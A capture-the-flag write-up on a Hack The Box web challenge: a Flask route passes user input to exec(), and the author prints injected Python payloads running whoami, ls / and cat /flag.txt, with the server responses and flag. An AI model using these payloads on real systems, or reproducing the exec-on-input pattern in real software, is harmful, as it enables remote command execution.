 ```yaml
---
title: Day 1 - Web
date: 2022-11-13 12:00:00
categories: [HTB,CTF]
tags: [commandinjection,python]
---
```


## Summary

We are presented with an application that let's us play against a ghost that wants to destroy the fun of halloween. Our goal is to stop the ghost and get our flag

## Enumeration

### Download Resources

Let's download the associated files for our challenge and check the content

```bash
.
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── card.css
│   │   │   │   ├── game.css
│   │   │   │   └── index.css
│   │   │   ├── images
│   │   │   │   ├── alive.gif
│   │   │   │   ├── bottom-circle.png
│   │   │   │   └── dead.gif
│   │   │   └── js
│   │   │       ├── card.js
│   │   │       ├── jquery-migrate-1.2.1.js
│   │   │       ├── jquery.min.js
│   │   │       └── ui.js
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt
```

### Check for vulnerabilities

If you have access to the source you often don't have to start with collecting infos on the page itself. So I started with checking the source code of my target.

When it comes down to Webapps I'll start with looking for API endpoints, they often contain some sort of vulnerability

Added some comments in this example just to showcase what paremeter is vulnerable and why

**routes.py**

```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

		# Current health of our enemy
    current_health = data.get('current_health')
    # Attack Power of the card we drew
    attack_power = data.get('attack_power')
    # Did we do damage or did the target get health?
    operator = data.get('operator')

		# If any var isn't set display message "All fields are required"
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
		    # Can you spot the vulnerable parameter?
		    # int(current_health) = isn't it as this has to be an integer otherwise compile will fail
		    # int(attack_power) = isn't it as this has to be an integer otherwise compile will fail
		    # operator = is a simple string which will allow us to use it for code execution!
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        # Always an bad idea to execute stuff from user controlled input
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

## Exploitation

### POC

**POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 124
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='whoami';test=os.popen(cmd).read();result=test;#"}
```

**Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:06 GMT
Content-Type: application/json
Content-Length: 21
Connection: close

{"message":"root\n"}
```

### Flag

**Check Files - POST Request**
```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 122
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='ls /';test=os.popen(cmd).read();result=test;#"}
```

**Check Files - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:19 GMT
Content-Type: application/json
Content-Length: 121
Connection: close

{"message":"app\nbin\ndev\netc\nflag.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

**Display Flag - POST Request**

```http
POST /api/get_health HTTP/1.1
Host: 161.35.168.67:31480
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://161.35.168.67:31480/
Content-Type: application/json
Origin: http://161.35.168.67:31480
Content-Length: 131
Connection: close

{"current_health":"100","attack_power":"1",
"operator":  ";import os;cmd='cat /flag.txt';test=os.popen(cmd).read();result=test;#"}
```

**Display Flag - Response**

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.15
Date: Sat, 22 Oct 2022 17:04:32 GMT
Content-Type: application/json
Content-Length: 47
Connection: close

{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```